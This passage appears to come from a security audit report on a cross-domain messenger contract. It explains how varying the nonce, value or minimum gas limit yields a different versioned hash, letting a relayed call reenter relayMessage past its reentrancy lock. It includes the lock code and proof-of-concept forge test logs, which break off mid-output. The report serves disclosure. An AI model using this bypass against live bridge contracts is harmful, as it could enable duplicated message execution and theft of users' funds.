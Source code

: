 exploit.call => CrossDomainMessager#relayMessage with same target and calldata but different nonce => exploit.call =>  CrossDomainMessager#relayMessage with same target and calldata but different nonce => transaction complete.

because two transactions has different nonce, the version hash has would be different and bypass the reentrancy protection. user can also use _value  and _value + 1 wei in two messages or _minGasLimit and _minGasLimit + 1 wei in two messages  to result in the output of different versionHash but still use the same target and message call data.

```solidity
        // We use the v1 message hash as the unique identifier for the message because it commits
        // to the value and minimum gas limit of the message.
        bytes32 versionedHash = Hashing.hashCrossDomainMessageV1(
            _nonce,
            _sender,
            _target,
            _value,
            _minGasLimit,
            _message
        );

        // Check if the reentrancy lock for the `versionedHash` is already set.
        if (reentrancyLocks[versionedHash]) {
            revert("ReentrancyGuard: reentrant call");
        }
        // Trigger the reentrancy lock for `versionedHash`
        reentrancyLocks[versionedHash] = true;
```

We are running the test

```solidity
forge test -vvv --match testReentrancy
```

the output is

```solidity
Running 1 test for test/RelayMessagerReentrancy.t..sol:CounterTest
[PASS] testReentrancy() (gas: 145612)
Logs:
  ------ calling contract -----
  target and message
  0x2e234dae75c793f67a35089c9d99245e1c58470b
  0xca5c88140000000000000000000000005615deb798bb3e4dfa0139dfa1b3d433cc23b72f00000000000000000000000000000000000000000000000000000000000000030000000000000000000000007fa9385be102ac3eac297483dd6233d62b3e14960000000000000000000000002e234dae75c793f67a35089c9d99245e1c58470b00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000005f5e100
  -----
  reentrant function call result
  false
  ------ calling contract -----
  target and message
  0x2e234dae75c793f67a35089c9d99245e1c58470b
  0xca5c88140000000000000000000000005615deb798bb3e4dfa0139dfa1b3d433cc23b72f00000000000000000000000000000000000000000000000000000000000000030000000000000000000000007fa9385be102ac3eac297483dd6233d62b3e14960000000000000000000000002e234dae75c793f67a35089c9d99245e1c58470b00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000005f5e100
  -----
  reentrant function call result
  false

  phrase 2
  ------ calling contract -----
  target and message
  0x2e234dae75c793f67a35089c9d99245e1c58470b
```